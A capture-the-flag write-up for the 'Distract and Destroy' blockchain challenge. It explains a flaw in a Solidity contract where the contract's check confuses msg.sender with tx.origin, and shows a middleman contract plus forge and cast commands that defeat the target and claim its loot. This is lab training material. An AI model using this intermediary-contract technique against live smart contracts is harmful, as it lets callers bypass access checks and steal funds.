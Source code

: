 # CHALLENGE - DISTRACT AND DESTROY

IP: 94.237.57.59

Challenge Type: Blockchain

---

## INSTALLATION

- In the zip downloaded there are two files `Setup.sol` and `Creature.sol`
- They are Solidity scripts. The first create the creature the second is the creature
- The goal is to attack the creature doing 1000 damage and then loot the victim
- First thing first, we need to install `foundry` tool to interact with the blockchain
- Go to [https://book.getfoundry.sh/getting-started/installation](https://book.getfoundry.sh/getting-started/installation)
- This will install foundry along with Rust tools such as `cargo`
- To make use of foundry utils we need change the `PATH` variable

```bash
$ echo "export PATH=/home/{user}/.foundry/bin:$PATH" >> /home/{user}/.bashrc
$ source /home/{user}/.bashrc
```

- Notice that it is possible that current version of foundry mismatch the version of the challenge
- It this occurs you will need to install a specific version

```bash
$ echo "export PATH=/home/{user}/.cargo/bin:$PATH" >> /home/{user}/.bashrc
$ source /home/{user}/.bashrc
$ rustup default stable
$ foundryup -C cc5637a
```

---

## SOLVING THE CHALLENGE

- Now, you are ready to take down the challenge
- First, we need to setup the environment
- Inside the folder output of the unzip on the Challenge Archive, run

```bash
$ forge init --force
$ mv Creature.sol Setup.sol src/
```

- Now, let's open the website `{IP}:{port}`
- There is one important tab named `Connection` which gives all the values

```json
{
    "PrivateKey"    : "key",
    "Address"       : "our-address",
    "TargetAddress" : "target",
    "SetupAddress"  : "setup"
}
```

- Take note of this values, we will need it
- Here is a small explanation of what we need to do

> We need to attack the creature and remove 1000 HP. `Creature.sol` has two main
> functions `attack(uint256)` and `lott()`. For now, the most important one is
> `attack`. This is the source code of that function

```
function attack(uint256 _damage) external {
    if (aggro == address(0)) {
        aggro = msg.sender;
    }

    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
```

> As you can see the first time it is called it sets `aggro` to `msg.sender`
> which is the address that sent the message (call that procedure). Then it
> checks whether who is sent the message is also the transmitter, using the
> `_isOffBalance` function. It also checks whether the `aggro` is `msg.sender`.
> If the condition is true, the attack have success. In other words, the attack
> is successful if who sent the message is not the same that calls the procedure.

- To make the attack, we need to create a middleman that makes the attack
- This is the source code of a new file `Middle.sol` in the `src` folder.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Middle {
    Creature public creature;
    
    constructor (Creature _creature) {
        creature = _creature;
    }
    
    function f(uint256 _damage) external {
        creature.attack(_damage);
    }
}
```

- Now, we need to deploy the new smart contract using `forge`

```bash
$ forge create src/Middle.sol:Middle --private-key $key --rpc-url http://{IP}:{port}/rpc

...
Deployer: $our-address
Deployed to: $middle
...
```

- Now, we need to call the `attack` procedure given our address
- Essentially, we need `aggro` to be equal to `tx.origin`, or us.

```bash
$ cast send $target "attack(uint256)" 1000 --private-key $key \
    --rpc-url http://{IP}:{port}/rpc
```

- Now that `aggro = tx.origin`, or our address, we can call `f` of `Middle`
- Then Middle will call `attack` of the target
- However, since `msg.sender` is `Middle` but `aggro` is `tx.origin` (i.e. us), the attack is successful

```bash
$ cast send $middle "f(uint256)" 1000 --private-key $key \
    --rpc-url http://{IP}:{port}/rpc
```

- Finally, we can call the final method, i.e., `loot` to collect the loot

```bash
$ cast send $target "loot()" --private-key $key --rpc-url http://{IP}:{port}/rpc
```

- Visit the `http://{IP}:{port}/flag` page to obtain the flag